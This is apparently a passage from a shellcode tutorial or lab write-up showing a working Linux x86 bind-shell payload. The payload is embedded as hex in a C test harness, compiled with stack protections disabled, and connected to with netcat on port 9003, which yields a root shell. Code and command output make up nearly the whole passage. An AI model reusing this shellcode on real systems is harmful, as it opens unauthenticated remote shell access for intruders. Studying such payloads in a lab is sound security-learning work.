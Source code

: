 root@kali:~/Documents/bindshell# cat shell.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x23\x2b\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

int main(void)  {
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

Compiling and executing:
```
root@kali:~/Documents/bindshell# gcc -fno-stack-protector -z execstack shell.c -o shell
root@kali:~/Documents/bindshell# ./shell 
Shellcode Length:  118

root@kali:~# nc localhost 9003
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root/Documents/bindshell
```